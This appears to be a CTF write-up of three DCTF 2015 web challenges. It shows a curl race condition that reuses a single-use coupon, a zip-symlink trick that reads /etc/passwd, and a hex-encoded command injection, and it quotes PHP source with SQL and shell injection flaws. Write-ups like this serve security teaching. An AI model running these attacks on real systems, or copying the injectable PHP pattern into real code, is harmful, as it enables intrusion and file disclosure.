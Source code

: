 ```yaml
---
title:      DCTF 2015 - Web Challenges
author:     Filippo "fcremo" Cremonese, Alessandro "cube" De Vito
date:       2015-10-11 09:00:00
summary:    Web web web!
categories: DCTF2015 Web
tags:
 - DCTF
 - Web
---
```

## Web100
This challenge was quite straightforward: we only had a textual input field and the suggestion to use the coupon (DCTF_ADD_MONEY).
That coupon could normally be used just a single time, but the goal was to get more money than a single coupon would give you.
The challenge could be solved using just the shell and a one liner:

```
$ curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/" & curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/"
```

## Web200
We had a service that allowed you to upload zip files, decompressed them and let you download the contents. There was a comment in the HTML source: `getent passwd | grep someuser | cut ...` (sorry, I haven't saved the specific command).
I created a zip file containing a simbolic link to `/etc/passwd`:
```
$ ln -s /etc/passwd mylink
$ zip archive.zip mylink
```
I uploaded the archive and... nothing, the website didn't display my file.
The service allowed you to see the debug logs of the unzip command executed server side and in the logs I could see my link was being extracted correctly, so I tried to manually download the passwd file manipulating the download url of another archive I uploaded earlier and it worked!

## Web400 (CSS Engineer)
The php code that allowed you to get the user images used `cat`
```
$ curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
 and was vulnerable to command injection.
 because it constructed the path to output from user input without sanitizing it correctly.

Again, this challenge was doable with a one liner:
```
$ curl `python2 -c "print 'http://10.13.37.5/?id=0x' + '../*; #'.encode('hex') + '&usr=1"`
```

The reason this works was because id was used in an SQL query and got converted to a string:
{% highlight php startinline=True %}
if(isset($_GET['id'], $_GET['usr'])) {
    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,...');
	}

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
{% endhighlight %}
